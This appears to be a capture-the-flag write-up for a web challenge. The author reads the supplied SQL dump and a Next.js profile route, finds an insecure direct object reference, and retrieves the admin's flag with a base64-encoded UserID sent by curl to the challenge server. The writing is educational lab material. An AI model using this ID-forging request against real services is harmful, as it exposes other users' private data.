



What you need to solve :
- Basic concept js
- Basic concept of encoding
- Basic concept of Websites

---

Starting off the challenge we were given the full source code of the challenge!

```sh
❯ ls
app  docker-compose.yml  Dockerfile  idors.sql  jsconfig.json  package.json  postcss.config.mjs  public  start.sh
```

from the given files whats weird is the sql is called `idors.sql` which hugely hints that we need to find an idor.

```sh
❯ cat idors.sql
-- phpMyAdmin SQL Dump
-- version 5.2.1
-- https://www.phpmyadmin.net/
--
-- Host: 127.0.0.1
-- Generation Time: May 30, 2025 at 09:10 AM
-- Server version: 10.4.32-MariaDB
-- PHP Version: 8.0.30

SET SQL_MODE = "NO_AUTO_VALUE_ON_ZERO";
START TRANSACTION;
SET time_zone = "+00:00";


/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;

--
-- Database: `idor`
--

-- --------------------------------------------------------

--
-- Table structure for table `friends`
--

CREATE TABLE `friends` (
  `FriendshipID` int(11) DEFAULT NULL,
  `UserID1` varchar(50) DEFAULT NULL,
  `UserID2` varchar(50) DEFAULT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_general_ci;

--
-- Dumping data for table `friends`
--

INSERT INTO `friends` (`FriendshipID`, `UserID1`, `UserID2`) VALUES
(1, '9da586a5-06c8-4201-be29-c5aca6187523', '3d4da6cc-64eb-4b54-b979-40f0b5de4d4e'),
(2, '9da586a5-06c8-4201-be29-c5aca6187523', 'f5b3f205-169a-471d-8bb3-7ff20f5f725c'),
(3, '9da586a5-06c8-4201-be29-c5aca6187523', '2f684d22-d583-4c2b-921b-cee294f8bf2c');

-- --------------------------------------------------------

--
-- Table structure for table `msuser`
--

CREATE TABLE `msuser` (
  `UserID` varchar(50) NOT NULL,
  `Username` varchar(50) DEFAULT NULL,
  `Email` varchar(50) DEFAULT NULL,
  `Password` varchar(50) DEFAULT NULL,
  `Description` varchar(50) DEFAULT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_general_ci;

--
-- Dumping data for table `msuser`
--

INSERT INTO `msuser` (`UserID`, `Username`, `Email`, `Password`, `Description`) VALUES
('2f684d22-d583-4c2b-921b-cee294f8bf2c', 'John', 'john@gmail.com', 'John123#', ''),
('3d4da6cc-64eb-4b54-b979-40f0b5de4d4e', 'Admin', 'admin@gmail.com', 'youcannotguessthis123', 'CSC{not_the_real_flag_dont_cheat}'),
('9da586a5-06c8-4201-be29-c5aca6187523', 'hiro', 'hiro@gmail.com', 'hiro123', ''),
('f5b3f205-169a-471d-8bb3-7ff20f5f725c', 'Jean', 'jean@gmail.com', 'jean123#', '');

--
-- Indexes for dumped tables
--

--
-- Indexes for table `friends`
--
ALTER TABLE `friends`
  ADD KEY `UserID1` (`UserID1`),
  ADD KEY `UserID2` (`UserID2`);

--
-- Indexes for table `msuser`
--
ALTER TABLE `msuser`
  ADD PRIMARY KEY (`UserID`),
  ADD UNIQUE KEY `unique_email` (`Email`);

--
-- Constraints for dumped tables
--

--
-- Constraints for table `friends`
--
ALTER TABLE `friends`
  ADD CONSTRAINT `friends_ibfk_1` FOREIGN KEY (`UserID1`) REFERENCES `msuser` (`UserID`) ON DELETE CASCADE,
  ADD CONSTRAINT `friends_ibfk_2` FOREIGN KEY (`UserID2`) REFERENCES `msuser` (`UserID`) ON DELETE CASCADE;
COMMIT;

/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
```

From the information in `idors.sql` we can see that the id for the admin is `3d4da6cc-64eb-4b54-b979-40f0b5de4d4e` we shall keep that in mind until we find something.



Playing around with the website i saw there was a profile button, opening it the `??` box is very suspicious and i think thats where the flag actually is!

We can try to find profile logic

```js
❯ ls
app  docker-compose.yml  Dockerfile  idors.sql  jsconfig.json  package.json  postcss.config.mjs  public  start.sh
❯ ls public
assets  file.svg  globe.svg  next.svg  tung.jpg  vercel.svg  window.svg
❯ ls app
api  components  favicon.ico  globals.css  layout.jsx  lib  login  page.jsx  register
❯ ls app/api
fetchfriends  fetchuser  profile  submituser
❯ ls app/api/profile
route.js
❯ cat app/api/profile/route.js
import { query } from "@/app/lib/db";
import { NextResponse } from "next/server";
export async function POST(req) {
  try {
    const encodedString = await req.text();
    const decodedString = Buffer.from(encodedString, 'base64').toString('utf-8');
    const { UserID } = JSON.parse(decodedString);
    const response = await query(
      'SELECT Username, Email, Description FROM msuser WHERE UserID = ?',
      [UserID]
    );
    console.log('Query response:', response);
    return NextResponse.json({
      success: true,
      data: response
    });
  } catch (e) {
    console.error('SQL Error:', e);
    return NextResponse.json({
      success: false,
      message: e.message || 'Terjadi kesalahan server'
    }, { status: 500 });
  }
}
```

So the main function simply takes UserID from json data from a base64 string then use it to query the SQL.
This is vulnerable to an IDOR!
Because we know the id of the admin we could make the server give us the admin data!

```sh
❯ echo -n '{"UserID": "3d4da6cc-64eb-4b54-b979-40f0b5de4d4e"}' | base64
eyJVc2VySUQiOiAiM2Q0ZGE2Y2MtNjRlYi00YjU0LWI5NzktNDBmMGI1ZGU0ZDRlIn0=
❯ curl -X POST http://46.202.163.245:3000/api/profile -H "Content-Type: text/plain" --data 'eyJVc2VySUQiOiAiM2Q0ZGE2Y2MtNjRlYi00YjU0LWI5NzktNDBmMGI1ZGU0ZDRlIn0='
{"success":true,"data":[{"Username":"Admin","Email":"admin@gmail.com","Description":"CSC{i_keep_them_in_my_base64ment}"}]}
```



Flag : CSC{i_keep_them_in_my_base64ment}